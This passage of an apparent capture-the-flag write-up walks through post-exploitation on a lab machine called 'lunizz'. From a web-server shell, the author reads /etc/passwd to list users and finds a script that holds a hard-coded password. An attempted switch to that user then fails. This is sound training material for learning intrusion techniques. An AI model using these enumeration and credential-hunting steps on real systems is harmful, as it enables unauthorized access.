 ```
www-data@lunizz:/var/www/html/whatever$ cat /etc/passwd | grep /bin/sh
adam:x:1000:1000::/home/adam:/bin/sh
mason:x:1001:1001::/home/mason:/bin/sh
```

**Found 2 users: `adam` and `mason`.**

**In the root (`/`) of the Linux filesystem, I found a directory called `proct` is owned adam, which is very peculiar:**
```
www-data@lunizz:/var/www/html/whatever$ ls -lah /
[...]
drwxr-xr-x   3 adam adam 4.0K Feb 28  2021 proct
[...]
```

```
www-data@lunizz:/var/www/html/whatever$ ls -lahR /proct
ls -lahR /proct
/proct:
total 12K
drwxr-xr-x  3 adam adam 4.0K Feb 28  2021 .
drwxr-xr-x 25 root root 4.0K Mar 25  2021 ..
drwxr-xr-x  2 adam adam 4.0K Feb 28  2021 pass

/proct/pass:
total 12K
drwxr-xr-x 2 adam adam 4.0K Feb 28  2021 .
drwxr-xr-x 3 adam adam 4.0K Feb 28  2021 ..
-rw-r--r-- 1 adam adam  273 Feb 28  2021 bcrypt_encryption.py
```

**Let's take a look at the `bcrypt_encryption.py` python script!**
```py
import bcrypt
import base64

passw = "wewillROCKYOU".encode('ascii')
b64str = base64.b64encode(passw)
hashAndSalt = bcrypt.hashpw(b64str, bcrypt.gensalt())
print(hashAndSalt)

#hashAndSalt = b'$2b$12${Redacted}'
#bcrypt.checkpw()
```

**Found `adam` password in cleartext! `wewillROCKYOU`**. Let's **Switch User** to `adam`!

```
www-data@lunizz:/var/www/html/whatever$ su adam
Password:

su: Authentication failure
```

